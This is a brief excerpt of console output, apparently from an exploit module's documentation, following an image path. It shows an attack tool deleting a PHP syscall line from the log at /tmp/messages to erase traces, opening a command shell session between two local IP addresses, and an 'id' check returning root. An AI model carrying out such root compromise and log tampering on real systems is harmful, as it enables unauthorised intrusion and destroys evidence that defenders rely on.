 ```
[*] A is input...
[*] Attempting to clean the log file at /tmp/messages...
[!] Please note this will render the target (temporarily) unexploitable. This state can last over an hour.
[+] Successfully cleaned up the log by deleting the line with the PHP syscal from /tmp/messages.
[*] Command shell session 22 opened (192.168.1.229:4949 -> 192.168.1.151:42232 ) at 2021-11-02 16:45:53 +0000

id
uid=0(root) gid=0(root)
```
